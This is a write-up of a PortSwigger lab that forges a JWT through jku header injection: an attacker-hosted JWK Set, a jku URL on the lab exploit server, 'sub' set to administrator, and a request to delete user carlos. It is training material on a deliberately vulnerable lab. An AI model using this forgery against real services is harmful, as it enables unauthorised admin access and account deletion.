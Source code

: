 # JWT authentication bypass via jku header injection

## This lab uses a JWT-based mechanism for handling sessions. The server supports the `jku` parameter in the JWT header. However, it fails to check whether the provided URL belongs to a trusted domain before fetching the key.

## To solve the lab, forge a JWT that gives you access to the admin panel at `/admin`, then delete the user `carlos`.

## You can log in to your own account using the following credentials: `wiener:peter`

---

step 1

![[lab5_my_account.png]]

step 2

![[lab5_admin_request.png]]

step 3

![[lab5_rsa_key_generated.png]]

step 4
![[lab5_example_jwk.png]]
format for payload

```json
{
"keys": [
{body1},
{body2}
]
}
```

![[lab5_rsa_file_copy_for_public_key.png]]

```json
{
  "kty": "RSA",
  "e": "AQAB",
  "kid": "6042f3a7-58b7-49b5-8cd4-57e8f34a89fb",
  "n": "1dEdwHsmAwb4x39cVNqXXmrv2uy4k_YnuYYxX81jbE4C4BBmu_W9OrYUQo_k8p5E_bK7hI4xD3TFYiqqgQewHDYAEaqG0mgP0TshPn6ZiLhynfUrq402iy3GxRP3VbIVC1WF62U_1X_2SW2HKwBZwS5nj_z25FApFpzWI37SBj0t4C9jV7bcq1a8e71Xzfkbe1Sa7kAFMtt5Pf-QK1hXQHqWj10T3-wFRPvTQV7JYzvOoiqk0qWSOgxPwNpTxQMhs5QVwqdErq9EU8d9ikgjuL5vEUHvQXrZch8Ryepdw49uxayInIupmBtu7BOmnwDJLVZj6QGNQ4RkVIltkcSm7Q"
}
```

final payload
look like

```json
{
  "keys": [
    {
      "kty": "RSA",
      "e": "AQAB",
      "kid": "6042f3a7-58b7-49b5-8cd4-57e8f34a89fb",
      "n": "1dEdwHsmAwb4x39cVNqXXmrv2uy4k_YnuYYxX81jbE4C4BBmu_W9OrYUQo_k8p5E_bK7hI4xD3TFYiqqgQewHDYAEaqG0mgP0TshPn6ZiLhynfUrq402iy3GxRP3VbIVC1WF62U_1X_2SW2HKwBZwS5nj_z25FApFpzWI37SBj0t4C9jV7bcq1a8e71Xzfkbe1Sa7kAFMtt5Pf-QK1hXQHqWj10T3-wFRPvTQV7JYzvOoiqk0qWSOgxPwNpTxQMhs5QVwqdErq9EU8d9ikgjuL5vEUHvQXrZch8Ryepdw49uxayInIupmBtu7BOmnwDJLVZj6QGNQ4RkVIltkcSm7Q"
    }
  ]
}
```

step 5
copy final payload to exploit and click on store

![[lab5_exploit_pyload_store.png]]

step 6

- add in header ` "jku": "https://exploit-0ae000a00424bb2e807db60001ce0021.exploit-server.net/exploit"`
- change payload with `"sub": "administrator"`
- click on sign in, pop will appear don't modify header click ok
- send Get /admin request you will get 200 ok

![[lab5_modidy_header_add_jku.png]]

when you will get 200 ok go to bottom
you will see admin panel and wiener and carlos account delete operation

![[lab5_admin_panel.png]]

step 6
send GET /admin/delete?username=carlos request to solve lab

![[lab5_delete_carlos_account.png]]

![[portswigger_wsa/P03_advanced_topics/P23_JWT_attacks/images/lab5_solved_lab.png]]
